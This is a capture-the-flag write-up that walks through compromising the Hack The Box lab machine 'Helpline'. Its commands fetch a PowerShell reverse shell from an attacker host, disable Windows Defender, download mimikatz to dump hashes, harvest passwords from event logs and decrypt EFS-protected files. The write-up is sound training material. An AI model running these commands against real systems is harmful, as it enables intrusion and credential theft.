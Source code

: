 Looport 5985 (winrm) Remote management users
port 445 (smb)
port 8080 (http)

There is an SMB service running, and I use crackmapexec to gather additional information about the target machine

``` 
❯ crackmapexec smb 10.10.10.132
SMB         10.10.10.132    445    HELPLINE         [*] Windows 10.0 Build 17763 x64 (name:HELPLINE) (domain:HELPLINE) (signing:False) (SMBv1:False)
```

Now I'm going to use smbmap to enumerate all the shared drives across the entire domain.

```
smbmap -H 10.10.10.132 -u 'null'
[!] Authentication error on 10.10.10.132
```

the access is denied, so I need to enumerate more things, like the port 8080, which hosts a website.

On this website, I discovered a login panel for an application called "ManageEngine ServiceDesk plus", 
I was able to log in as guest. Now, I'm using searchsploit to look for exploits related to this application.

I found a vulnerability in this application that allows me to enumerate users just by using the path  "/servlet/AJaxServlet?action=checkUser&search=guest"
If the response is "true", it means the user exists. So I'll create a bash script to brute force this to find the valid users

``` bash
cat /usr/share/seclist/Usernames/top-usernames-shortlist.txt | while read username; do echo -e "\n[*] Trying Username -> $username\n"; curl -s "http://10.10.10.132:8080/servlet/AjaxServlet?action=checkUser&search=$username" -H "Cookie: JSESSIONID=4534545; JSE4355; _rem=erwe_; mes2343"; done | grep "true" -B 2
```

There are two users: "administrator" and "guest"

Upon searching for vulnerabilities using searchsploit, I found an "Authentication Bypass" vulnerability.
"An attacker can use the following URL to login to the mobile client" -> http://10.10.10.132:8080/mc/
"Use the discovered username in both the username and password fields" In my case "administrator" "administrator"
"Once logged in, remove /mc from the URL and you will be presented with the full application and the authorities of the user you just logged in"

Effectively,  I'm now logged in as the administrator.
There is also a method to achieve Remote code execution and gain access to the victim's system using "Invoke-PowerShellTcp.ps1" from Nishang

```
#On my machine
> echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Invoke-PowerShellTcp.ps1')" | iconv -t utf-16le | base64 -w 0; echo
> rlwrap nc -nlvp 1234

#On the website
Go to -> Admin -> custom triggers -> Add new action -> Action Name: RCE -> Match the following criteria -> Sender - Is not  - "something"
	  -> Perform action -> run script -> cmd /c powershell -nop -enc base64
Go to -> Request -> new incident
 ```

I have gained access to the system as "nt authority\system", but I can't read the flags (search for the flag -> cmd /c dir /r /s user.txt)
It appears that the file is encrypted. Confirming this, I executed the command "cipher /c user.txt/root.txt" which confirmed the encryption and indicated that only the users 'tolu' and 'administrator' cad decrypt it.

To proceed, I'm going to use mimikatz to obtain the NTLM hashes from the system https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919
Before uploading mimikatz to the victim machine, I need to disable windows defender, I can do this because I have elevated privileges on the victim machine as 'nt authority\system'

``` powershell
-> cd \ProgramData
-> Set-MpPreference -DisableRealtimeMonitoring $true
-> iwr -uri http://10.10.14.3/mimikatz.exe -OutFile mimikatz.exe "exit"
	certutil.exe -f -urlcache -split http://10.10.14.3/mimikatz.exe mimikatz.exe "exit"
-> .\mimikatz.exe log hash.txt "exit"
-> .\mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
zachary:0987654321
```

I now have the hashes, and I'll crack them using the web-based tool CrackStation.
I successfully retrieved password "0987654321" associated with the user "zachary"
Now i'm going to check if this credentials are valid
``` bash
crackmapexec smb 10.10.10.132 -u 'zachary' -p '0987654321'
```

The credentials are correct, but the user doesn't have the respective privilege "remote management users" that allows me to connect via WinRm.
When looking at the privilege for that user, it has the "Event Log Readers" privilege. I can achieve the same functionality with the current user I have. To do this, I use the script  [Get-WinEventData.ps1](https://github.com/RamblingCookieMonster/PowerShell/blob/master/Get-WinEventData.ps1 "Get-WinEventData.ps1")


``` powershell
#on my machine
wget https://raw.githubusercontent.com/RamblingCookieMonster/PowerShell/master/Get-WinEventData.ps1
sudo python -m http.server 80

#on victim machine
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Get-WinEventData.ps1')
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} | Get-WinEventData | Select e_CommandLine | ft -AutoSize

USER:tolu /P !zaq1234567890pl!99
```

Checkin these logs, I obtained the password for the user "tolu" 
Now with these credentials, I can decrypt de user's flag. https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files

``` powershell
#on the victim machine
cipher /c user.txt
# copy the certificate thumbprint
# Use mimikatz
-> ./mimikatz.exe "crypto::system /file:C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\91EF5D08D1F7C60AA0E4CEE73E050639A6692F29 /export" "exit"
# this create a .der file, now I download it to my machine
# use base64 to copy the file to my machine
-> [convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte))
#on my machine
echo "base64" | base64 -d > 91EF5D08D1F7C60AA0E4CEE73E050639A6692F29.der 

#on the victim machine
dir C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1...... -Force
.\mimikatz "dpapi::masterkey /in:C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011\2f452fc5-c6d2-4706-a4f7-1cd6b891c017 /password:!zaq1234567890pl!99" "exit"
#save the sha1 hash (masterkey)
sha1: 8ece5985210c26ecf3dd9c53a38fc58478100ccb

-> .\mimikatz "dpapi::capi /in:C:\Users\tolu\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-3107372852-1132949149-763516304-1011\307da0c2172e73b4af3e45a97ef0755b_86f90bf3-9d4c-47b0-bc79-380521b14c85 /masterkey:8ece5985210c26ecf3dd9c53a38fc58478100ccb" "exit"
#this export a .pvk file
#now transfer it to my machine
dpapi_exchange_capi_0_e65e6804-f9cd-4a35-b3c9-c3a72a162e4d.keyx.rsa.pvk
[convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte))
``` 

Now I use openssl to creat the public key on my machine
``` bash
-> openssl x509 -inform DER -outform PEM -in B53C6DE283C00203587A03DD3D0BF66E16969A55.der -out public.pem
-> openssl rsa -inform PVK -outform PEM -in raw_exchange_capi_0_ffb75517-bc6c-4a40-8f8b-e2c555e30e34.pvk -out private.pem
-> openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
#whit this i have the .pfx file, I need to transfer this file to the victim machine
-> sudo python -m http.server 80
# on victim machine
-> iwr -uri http://10.10.14.3/cert.pfx -OutFile cert.pfx
-> certutil -user -p mimikatz -importpfx cert.pfx NoChain,NoRoot
-> type \Users\tolu\Desktop\user.txt
0d522fa8d6d2671636ac7e73216808d3
```

Whit this entire process, I can decrypt the user.txt file successfully.
Now, I need to decrypt the root.txt file, but I lack the Administrator password.
While enumerating the sistem,  the user "leo" has a  "admin-pass.xml" file,  but it's encrypter. I'll need to follow a similar process as before to decrypt it, but I don't have the password for this user.

I noticed that the user "leo" has a console open when I ran the command "tasklist /v".  To exploit this and attempt to migrate or impersonate this user, I will use the software "tightvnc"

``` bash
#download tightvnc  https://www.tightvnc.com/download.php
sudo python -m http.server 80

#on victim machine
-> iwr -uri http://10.10.14.3/tightvnc.msi
-> cmd /c msiexec /i tightvnc.msi /quiet /norestart ADDLOCAL="Server,Viewer" VIEWER_ASSOCIATE_VNC_EXTENSION=1 SERVER_REGISTER_AS_SERVICE=1 SERVER_ADD_FIREWALL_EXCEPTION=1 VIEWER_ADD_FIREWALL_EXCEPTION=1 SERVER_ALLOW_SAS=1 SET_USEVNCAUTHENTICATION=1 VALUE_OF_USEVNCAUTHENTICATION=1 SET_PASSWORD=1 VALUE_OF_PASSWORD=PASSWORD SET_USECONTROLAUTHENTICATION=1 VALUE_OF_USECONTROLAUTHENTICATION=1 SET_CONTROLPASSWORD=1 VALUE_OF_CONTROLPASSWORD=PASSWORD

#on my machine
vncviewer 10.10.10.132

```

I'm currently within the victim machine, logged in as the user 'leo'. Now, I have the ability to access the 'admin-pass.xml' file. This file contains a securely encrypted string that is easy to decrypt.

``` powershell
-> powershell 
-> $s = cat .\admin-pass.xml
-> $ss = ConvertTo-SecureString $s
-> $cred = New-Object System.Management.Automation.PSCredential('administrator', $ss)
-> $cred.getNetworkCredential() | fl
UserName       : administrator
Password       : mb@letmein@SERVER#acc
SecurePassword : System.Security.SecureString
Domain         :

```

Now I have the credentials for the user Administrator and can read the root.txt
``` powershell
runas /user:Administrator cmd.exe
cd \Users\Administrator\Desktop
type root.txt
d814211fc0538e50a008afd817f75a2c 
```

And in this way I solve this machine Helpline from Hack The Box

